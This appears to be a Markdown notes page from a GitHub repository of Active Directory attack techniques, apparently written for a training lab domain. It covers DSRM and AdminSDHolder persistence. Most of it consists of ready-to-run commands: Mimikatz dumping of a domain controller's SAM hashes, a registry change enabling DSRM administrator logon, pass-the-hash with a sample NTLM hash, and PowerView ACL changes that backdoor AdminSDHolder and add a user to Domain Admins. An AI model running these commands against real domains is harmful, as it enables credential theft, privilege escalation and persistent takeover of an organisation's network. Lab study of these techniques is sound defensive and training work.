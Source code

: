 # DSRM(Directory Services Restore Mode)
There is a local administrator on every Domain Controller named Administrator whose password is the DSRM password DSRM password also known as SafeMode Password is needed when a server is prompted to a domain controller and it is rarely changed. After altering the configuration on DC it is possible to pass the NTLM hash of this user to access the DC.

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```
Then on DC
```
Enter-PSSession -Computername dcorp-dc
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
Then, pass the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
ls \\dcorp-dc\C$
```
# AdminSDHolder

AdminSDHolder is a security mechanism in AD where primary its purpose is to ensure that high-privilege accounts, such as members of built-in administrative groups like Domain Admins, Enterprise Admins, and Schema Admins, Backup Operators, Server Operators, Print Operators, Replicators remain secure and are not inadvertently granted excessive permissions or are tampered with. For example for preststance if an attacker modifies Domain Admins group to have full control by student user the Security Descriptor Propagator (SDPROP) would run every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolderand any differences are overwritten on the object ACL meaning the changes made by attacker would not be viable after an hour. With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object. In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually beinga member of it. 

- Add FullControlpermissions for a user to the AdminSDHolderusing PowerViewas DA:
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
- Abusing FullControl using powerview
```
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```
- Reset password for a user to AdminSDHolder
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
- Invoke the SDPropagator manually
```
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```
- Abuse reset password using powerview
```
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
# Rights abuse